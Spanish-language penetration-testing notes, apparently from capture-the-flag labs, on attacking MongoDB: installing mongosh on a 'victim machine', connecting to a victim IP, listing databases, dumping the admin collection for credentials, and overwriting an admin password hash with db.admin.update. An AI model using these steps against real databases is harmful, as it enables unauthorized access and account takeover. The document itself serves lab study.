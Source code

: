 #mogodb

--------

MongoDB es una base de datos NoSQL orientada a documentos que guarda la información en formato similar a JSON (BSON).  
Es flexible, escalable y muy usada para aplicaciones web modernas y datos no estructurados.
Normalmente corre por el puerto 27017

# Como instalar el ejecutable en caso de que no este en la maquina victima
Esto nos va a dejar en la carpeta bin, un binario ejecutable que se llama .mongosh
```shell
curl -O https://downloads.mongodb.com/compass/mongosh-2.3.2-linux-x64.tgz
tar xvf mongosh-2.3.2-linux-x64.tgz
cd mongosh-2.3.2-linux-x64/bin
```

------
# Como conectarse a la base de datos con el ejectuable

```shell
./mongosh mongodb://Ip:Puerto
Ejemplo: ./mongosh mongodb://10.129.228.30:27017
```
*Parametros*
`./mongosh` Es el nombre del ejecutable
`Ip` Ip de la victima
`Puerto` Puerto de la victima

--------
# Si la maquina ya tiene mongodb solamente hay que usar

```
mongo --port 27117
```
![[Unified8.png]]
En este caso estaba usando el puerto 27117, pero podemos ver cual puerto es con [[ps faux y ps -eo]] `ps aux | grep mongod`

![[Unified7.png]]


-------
# Como visualizar contenido de archivos

`show dbs` Es para visualizar todas las bases de datos
`use NombreBaseDeDatos` Seleccionamos la base de datos que queremos usar
`show collections` Es como una tabla en sql que tiene documentos
`db.NombreDelArchivo.find().pretty()` Esto sirve para visualizar el contenido del archivo que queremos ver
`db.admin.find()` Se ven los datos de la tabla admin que puede contenter contraseñas **`admin` no es una colección por defecto**, sino una base de datos especial que contiene usuarios y configuraciones administrativas.
``db.admin.update`` Sirve para cambiar un dato de la tabla admin. En este ejemplo estamos cambiando la contraseña  que esta en SHA-512: |     db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$sP2utyIhNX7e0kit$4ysm601QjS5IGZ50Ccru1AcaZ.BdiK96RBSyIweWoLewf7PY7Pf1cfyZbB7GjH5XUIUJFHJyU2UPcCDS3lDnU."}})


Ejemplo de una intrusion real
```mongodb
show dbs
use sensitive_information
show colletions
db.flag.find().pretty()
```

![[Mongod4.png]]

-------
# Notas

Mongodb se llama la base de datos pero mongod es el demonio corriendo el proceso
